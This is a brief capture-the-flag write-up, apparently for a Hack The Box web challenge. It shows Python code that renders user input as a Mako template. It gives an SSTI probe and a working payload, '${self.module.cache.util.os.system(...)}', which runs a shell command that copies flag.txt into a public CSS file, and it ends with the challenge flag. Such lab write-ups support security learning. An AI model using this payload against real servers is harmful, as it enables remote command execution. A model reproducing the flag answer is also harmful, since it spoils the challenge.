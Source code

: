 
#### vulnerable code to SSTI

```text
web_spookifier\challenge\application\util.py
```

```python
def generate_render(converted_fonts):
	result = '''
		<tr>
			<td>{0}</td>
        </tr>
        
		<tr>
        	<td>{1}</td>
        </tr>
        
		<tr>
        	<td>{2}</td>
        </tr>
        
		<tr>
        	<td>{3}</td>
        </tr>

	'''.format(*converted_fonts)
	
	return Template(result).render()
```



```bash
http://161.35.33.46:31648/?text=${{7*7}}
```

![[s1.png]]

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#direct-access-to-os-from-templatenamespace

#### exploit 

```text
http://161.35.33.46:31648/?text=${self.module.cache.util.os.system(%22cp%20flag.txt%20/app/application/static/css/index3.css%22)}
```

![[s2.png]]

```text
HTB{t3mpl4t3_1nj3ct10n_1s_$p00ky!!}
```